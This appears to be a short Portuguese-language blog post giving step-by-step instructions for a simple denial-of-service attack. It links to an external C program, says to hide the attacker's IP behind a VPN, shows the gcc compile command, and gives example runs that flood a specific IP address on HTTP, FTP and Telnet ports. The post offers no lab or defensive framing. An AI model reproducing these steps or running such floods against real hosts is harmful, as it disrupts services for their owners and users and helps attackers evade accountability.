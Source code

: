 ```yaml
---
title: DoS Attack - with Clang
category: post
---
```


>link do código usado : 
https://github.com/d0x75/DoS-Clang_Linux.git

---


**Simple DoS Attack**

>DoS é um ataque de negação de serviço que é feito para prejudicar o pilar da Disponibilidade dos dados.

>Nesse caso se trata de um DoS bem simplório, que irá apenas ficar fazendo requisições repetidamente.. afim de sobrecarregar o Host e consequentemente derrubar-lo.



### Step 1

- Configurar uma VM Linux , de preferência com uma VPN para esconder o IP do atacante.

- Ter instalado ao menos o GCC na VM, para compilar o código que vai efetuar o DoS.


### Step 2


- Obter e Ler o código do link mencionado no início.

- Depois de entender o código e Compilar o código mencionado acima, usando o GCC de forma convencional :


```bash		
gcc DoS-linux.c -o DoS
```

### Step 3

- Se possível ligar uma VPN ou outro mecanismo que
esconda o IP do dispositivo atacante.
	
- Executar o programa compilado no Step 2, e passar
como argumento o Host e a Porta do alvo, que ficará recebendo as Resquests do atacante.

exemplos :

*Direcionando o DoS para um servidor HTTP(porta 80)* :


```bash
./DoS 65.75.137.94 80
```

*Direcionando o DoS para um servidor FTP(porta 21)* :


```bash
./DoS 65.75.137.94 21
```

*Direcionando o DoS para um servidor Telnet(porta 23)* :


```bash
./DoS 65.75.137.94 23
```